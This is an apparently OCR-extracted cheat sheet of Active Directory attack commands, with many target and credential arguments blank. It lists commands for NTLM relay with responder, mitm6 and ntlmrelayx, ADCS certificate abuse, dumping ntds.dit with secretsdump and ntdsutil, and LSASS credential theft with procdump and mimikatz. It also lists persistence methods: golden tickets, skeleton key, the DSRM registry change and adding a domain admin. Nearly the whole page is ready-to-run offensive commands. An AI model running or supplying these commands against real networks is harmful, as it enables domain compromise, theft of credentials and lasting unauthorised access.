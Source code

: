 relay
MS08-068

    use exploit/windows/smb/smb_relay #windows200 / windows server2008

responder -I eth0 # disable smb & http

    ntlmrelayx.py -tf targets.txt

mitm6 -i eth0 -d

    ntlmrelayx.py -6 -wh -l /tmp -socks -debug
    ntlmrelayx.py -6 -wh -t smb:// -l /tmp -socks -debug
    ntlmrelayx.py -t ldaps:// -wh –delegate-access
        getST.py -spn cifs/ /\$ -impersonate

adcs

    ntlmrelayx.py -t http:///certsrv/certfnsh.asp -debug -smb2support –adcs –template DomainController
        Rubeus.exe asktgt /user: /certificate: /ptt

Domain admin
dump ntds.dit

    crackmapexec smb 127.0.0.1 -u -p -d –ntds
    secretsdump.py ‘/:’@
    ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
        secretsdump.py -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
    windows/gather/credentials/domain_hashdump

Persistance
net group “domain admins” myuser /add /domain
Golden ticket

    ticketer.py -nthash -domain-sid -domain

Silver Ticket
DSRM

    PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

Skeleton Key

    mimikatz “privilege::debug” “misc::skeleton” “exit”

Custom SSP

    mimikatz “privilege::debug” “misc::memssp” “exit”
        C:\Windows\System32\kiwissp.log

…
Administrator access
get credentials

    procdump.exe -accepteula -ma lsass.exe lsass.dmp
        mimikatz “privilege::debug” “sekurlsa::minidump lsass.dmp” “sekurlsa::logonPasswords” “exit”
    mimikatz “privilege::debug” “token::elevate” “sekurlsa::logonpasswords” “lsadump::sam” “exit”
    post/windows/gather/smart_hashdump
        hashdump
    cme smb -u -p -M lsassy
    cme smb -u -p ” –sam / –lsa / –ntds

